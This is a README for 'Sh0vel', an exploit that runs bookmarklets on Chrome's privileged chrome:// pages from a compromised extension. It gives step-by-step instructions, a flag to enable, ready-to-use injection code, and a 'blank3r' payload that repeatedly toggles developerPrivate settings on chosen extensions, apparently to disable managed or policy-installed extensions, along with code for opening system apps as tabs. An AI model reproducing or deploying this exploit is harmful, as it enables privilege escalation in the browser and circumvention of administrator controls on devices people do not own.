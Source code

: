 ![Sh0vel logo](/oie_i9TLE9czG77X.jpg)
# Sh0vel
Sh0vel is an exploit letting bookmarklets run on almost any url, most notably chrome urls, allowing you to access permissions like developerPrivate or settingsPrivate from within an extension.

# Steps:
- Step 1: Get code execution in an extension. This can be by point-blank, skiovox breakout (preferably), XSS, DNS spoofing, or some other wacky way, but you need code execution in the extension.

- Step 2: Verify it has the correct permissions. For this to work, the following permissions are needed:
    - tabs
    - activeTab
    - browserAction
    - 'unsafe-eval' set in the CSP

If it does not have these permissions, this will not work.
- Step 3: Enable the flag "#extensions-on-chrome-urls"
- Step 4: Get a bookmarklet. This is fairly straight-forward. I'll use blank3r as an example.
- Step 5: Place the bookmarklet as follows:
chrome.browserAction.onClicked.addListener(() => {chrome.tabs.executeScript(null, {code: `location.href="javascript:replace this part with your own bookmarklet.";`});});

Make the extension run that code.
If you wanted to use blank3r, you would use this code:

chrome.browserAction.onClicked.addListener(() => {chrome.tabs.executeScript(null, {code: `let link=window.open('about:blank','_blank');link.location.href="javascript:let shim = false;var ids = prompt('extension ids (comma separated)').split(',');setInterval(()=>{ids.forEach((id)=> opener.chrome.developerPrivate.updateExtensionConfiguration({extensionId: id, fileAccess: shim}));shim = !shim;}, 250);";`});});

- Step 6: Open the url you want this code to run on. For blank3r, open chrome://extensions.
If you want to run code on an SWA (e.g. chrome://os-settings), you will need to open it as
a normal tab. This can be accomplished with the code below (thank you Writable):
chrome.tabs.create({}, () => {chrome.tabs.update(null, {url: "chrome://file-manager"});});

and you can replace chrome://file-manager with the SWA of your choosing.

- Step 7: Click the extension icon. If done correctly, your bookmarklet will run!

# Credits:
Writable for helping me open SWAs as a normal tab
Me for the finding the original API access exploit
Peap for writing this github page.
The rest of whelement: mental support while I struggled with random things


# Explanation: 
We can enable the extensions-on-chrome-urls flag to allow code to run as content scripts
on chrome urls, but tabs.executeScript runs without access to some variables in the page it
runs in, notably the chrome object. However, if the extension that invoked tabs.executeScript
has access to use eval, it also has a small side effect: letting us use javascript: urls.
By using an automated version of the point-blank exploit, we can use a javascript bookmarklet
on a chrome url, and for some reason, it runs with access to the chrome object for its opener.
A lot of new things are possible with this, such as spawning webviews from the file manager , 
using blank3r on the latest version, and more.

Aside from trying to run code on chrome urls, it's possible to use normal bookmarklets this way
to launch applications like eruda into pages without it being run as a content script. 
